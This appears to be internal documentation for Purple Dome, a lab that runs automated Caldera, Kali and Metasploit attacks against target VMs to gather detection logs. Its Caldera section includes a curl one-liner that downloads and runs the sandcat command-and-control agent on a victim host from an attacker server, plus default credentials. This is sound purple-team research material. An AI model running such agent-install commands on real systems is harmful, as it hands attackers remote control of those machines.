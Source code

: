 ======
Basics
======

Purple Dome is a simulated and automated environment to experiment with several operating system attacking each other.

This tool generates an attacker VM and target VMs. Automated attacks are then run against the targets and they will log system events. Those logs will then be stored away for analysis.

Attacks are started from the attacker VM which is normally a Kali linux machine (with all the Kali tools) running a Caldera server for additional tooling.

-------------------

Features
========

* Linux and Windows targets
* VM controller abstracted as plugins
    * Local vagrant based (debug and development)
    * Cloud based
* Attacks as plugins controlling
    * Caldera attacks
    * Kali attacks
    * Metasploit attacks
* Data collection: Attack log and sensor data in parallel with timestamps for matching events
* Vulnerability plugins: Modify the targets before the attack

Components
==========

The command line tools are the way you will interact with Purple Dome the most. Those are described in the *CLI* chapter.

The experiments are configured in YAML files, the format is described in the *configuration* chapter. You will also want to create some target VMs. You can do this manually or use Vagrant. Vagrant makes it simple to create Linux targets. Windows targets (with some start configuration) are harder and have an own chapter.

If you want to modify Purple Dome and contribute to it I can point you to the *Extending* chapter. Thanks to a plugin interface this is quite simple.





TODO: What sensors are pre-installed ?
TODO: How to attack it ?
TODO: How to contact the servers (ssh/...) ? Scriptable
TODO: How to run it without sudo ?
TODO: Which data is collected ? How to access it ? How to get data dumps out ?
TODO: Add Linux Server
TODO: Add Mac Server



Data aggregator
---------------

We currently can use IDP and logstash

There are several options for data aggregators:

* Fleet OSQuery aggregator: https://github.com/kolide/fleet
* The Hive


Sensors on Targets (most are Windows)
-------------------------------------

Those sensors are not integrated but could be nice to play with:

Palantir Windows Event forwarding: https://github.com/palantir/windows-event-forwarding

Autorun monitoring: https://github.com/palantir/windows-event-forwarding/tree/master/AutorunsToWinEventLog

Palantir OSquery: https://github.com/palantir/osquery-configuration

SwiftOnSecurity Sysmon config: https://github.com/SwiftOnSecurity/sysmon-config


Palantir OSQuery is mixed OS: Windows/Mac Endpoints, Linux Servers


Caldera
-------

Attack framework.

Starting: *python3 server.py --insecure*

Web UI on *http://localhost:8888/*

Credentials: *red/admin*

Documentation: Documentation: https://caldera.readthedocs.io/en/latest/

Installing client on victim (Linux):

server="http://192.168.178.45:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v

Filebeat
--------

Filebeat has a set of modules:

https://www.elastic.co/guide/en/beats/filebeat/6.8/filebeat-modules-overview.html

List modules: *filebeat modules list*

%% TODO: Add OSQueryD https://osquery.readthedocs.io/en/latest/introduction/using-osqueryd/

Logstash
--------

Logstash uses all .conf files in /etc/logstash/conf.d

https://www.elastic.co/guide/en/logstash/current/config-setting-files.html

Alternative: The Hive
---------------------

Sander Spierenburg (SOC Teamlead) seems to be interested in The Hive. So it is back in the game



Repos
-----

* The main part: https://git.int.avast.com/ai-research/purpledome
* Caldera fork to fix bugs: TBD
* Caldera Plugin for statistics: <add public git/avast folder>


Links
-----

* Others detecting this kind of things

    - https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/

